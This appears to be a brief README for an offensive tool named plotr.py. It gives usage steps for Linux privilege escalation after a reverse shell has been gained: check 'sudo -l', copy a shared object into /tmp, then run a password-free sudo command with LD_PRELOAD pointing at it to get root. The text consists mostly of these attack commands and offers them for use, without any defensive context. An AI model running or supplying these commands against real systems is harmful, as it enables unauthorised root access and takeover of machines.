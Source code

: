 # Usage
  ```
  chmod +x plotr.py
  ./plotr.py
  ```


if you show like a below then "sudo -l" after the shell via reverse shell

![image](https://user-images.githubusercontent.com/75846902/194975658-7b816e78-1c20-4ce1-ab4e-98e258ccca44.png)

```
mv plotr.so /tmp/plotr.so
sudo LD_PRELOAD=/tmp/plotr.so <nopasswd command>
```
